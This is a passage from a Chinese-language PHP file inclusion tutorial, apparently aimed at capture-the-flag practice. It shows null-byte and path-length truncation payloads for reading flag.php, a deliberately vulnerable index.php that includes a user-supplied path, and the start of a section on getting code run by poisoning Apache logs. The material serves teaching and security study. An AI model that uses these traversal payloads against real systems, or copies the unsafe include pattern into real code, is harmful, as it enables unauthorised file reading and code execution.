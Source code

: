```
index.php?file=../../flag.php%00
```

5.2. 路径长度截断

5.2.1. 要求

0.  php 版本小于 5.2.8
    

5.2.2. 操作系统文件长度限制

0.  windows 259 个 bytes
    
1.  linux 4096 个 bytes
    

5.2.3. 实例

index.php

```
<?php
if(empty($\_GET\["file"\])){
echo('../flag.php');
return;
}
else{
$filename='pages/'.(isset($\_GET\["file"\])?$\_GET\["file"\]:"welcome.txt").'.html';//限制了只能访问.html后缀名的文件,如果想访问.php后缀名的文件就需要阶段后面的.html
include $filename;
}
?>
```

5.2.4. poc

windows:

poc1:file=../../flag.php..............................................................................................................................................................................................................................................

poc2:file=../../flag.php./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

5.3. 总结

一般来说如果 php 版本在 5.3.4 以下, 先尝试使用 %00 截断, 如果不行再使用路径长度截断

6\. 包含 Apache 日志文件

WEB 服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把 PHP 代码插入到日志文件中，通过文件包含漏洞来执行日志中的 PHP 代码。

6.1. 使用条件

0.  对日志文件可读
    
1.  知道日志文件存储目录
    